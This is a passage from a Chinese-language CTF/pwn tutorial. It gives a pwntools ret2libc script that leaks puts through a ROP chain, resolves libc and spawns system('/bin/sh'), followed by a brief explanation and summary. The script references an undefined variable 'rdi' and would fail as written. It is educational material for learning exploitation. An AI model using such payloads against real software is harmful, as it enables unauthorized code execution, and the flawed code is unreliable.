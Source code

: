 脚本：

```plain
from pwn import*

io = process('./text')
libc=ELF('./libc.so.6')
puts_adr=0x401060
puts_got=0x404018
poprdi=0x401273
ret=0x40101a
main=0x4011BD
payload1 = b'a'*(0x10+8)+p64(rdi)+p64(puts_got)+p64(puts_adr)+p64(main)
io.sendline(payload1)
puts_real_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_real_addr - libc.sym["puts"]
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))
payload2 = b'a'*(0x10+8)+p64(ret)+p64(rdi)+p64(binsh)+p64(system)
io.sendline(payload2)
io.interactive()
```

脚本解析：

通过 pwntools 中的 ELF 模块解析 libc 文件，结合 recv 模块接收泄露出的 puts 函数真实地址得到 libc 基地址，从而能在 libc 中找出 system 函数和 binsh 字符串的真实地址，再通过劫持返回地址以及参数即可执行 system("/bin/sh")

## 总结

ret2 系列之一讲解了 ret2 系列中的 4 个基础的劫持方法，虽然他们方法简单，但是危害是十分巨大的，希望对初入二进制漏洞利用学习的师傅们有帮助
